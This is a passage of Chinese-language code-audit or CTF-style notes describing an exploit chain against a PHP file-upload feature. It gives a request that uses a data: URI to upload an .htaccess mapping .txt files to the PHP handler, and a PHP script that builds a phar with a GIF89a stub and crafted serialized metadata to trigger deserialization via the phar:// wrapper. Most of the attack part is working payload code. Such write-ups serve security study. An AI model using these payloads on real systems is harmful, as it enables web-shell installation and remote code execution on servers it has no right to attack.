 在对url的检测中ban了file和php，可以利用data伪协议来传输.htaccess来绕过黑名单

```php
AddHandler php7-script .txt
```

action=upload&filename=.htaccess&url=data:image/png;base64,QWRkSGFuZGxlciBwaHA3LXNjcmlwdCAudHh0

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2015.png)

由于构析函数中当前路径为根目录

想要写shell的话还需要拿到绝对路径

没有ban phar伪协议可以做phar反序列化

```php
<?php
class dir{
    public $userdir;
    public $url;
    public $filename;
}
$a=new dir();
$b=new dir();
$b->userdir='..';
$a->userdir=$b;
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('GIF89a'."__HALT_COMPILER();"); 
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

用http远程包含后再用phar伪协议触发phar反序列化

